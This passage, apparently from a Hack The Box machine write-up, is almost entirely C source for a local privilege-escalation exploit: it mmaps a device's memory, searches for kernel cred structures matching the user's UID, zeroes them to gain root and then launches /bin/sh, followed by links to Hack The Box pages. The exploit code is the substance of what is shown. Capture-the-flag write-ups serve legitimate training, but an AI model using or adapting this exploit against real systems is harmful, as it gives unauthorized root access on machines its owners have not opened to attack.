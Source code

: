 ~~~~c

  printf("[+] VMA size: 0x%lx (%d)\n", size, (int)size);        
  printf("[+] Offset: 0x%lx\n", offset);                        

  unsigned int * addr = (unsigned int *)mmap((void*)start, size,
      PROT_READ | PROT_WRITE, MAP_SHARED, fd, offset);          

  if (addr == MAP_FAILED) {                                     
    perror("Failed to mmap: ");                                 
    close(fd);                                                  
    return -1;                                                  
  }                                                             
  printf("[+] mmap OK addr: 0x%p\n", addr);

  unsigned int uid = getuid();
  printf("[+] UID: %d\n", uid);

  unsigned int credIt = 0;
  unsigned int credNum = 0;
  while (((unsigned long)addr) < (start + size - 0x40)) {       
    credIt = 0;
    if (
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid
    ) {
      credNum++;
      printf("[+] Found cred structure! ptr: %p, credNum: %d\n", addr, credNum);

      credIt = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;

      if (getuid() == 0) {
        puts("[+] GOT ROOT!");
        execl("/bin/sh", "-", NULL);
        puts("[-] execl failed...");
        break;
      } else {
        credIt = 0;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
      }
    }
    addr++;
  }
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/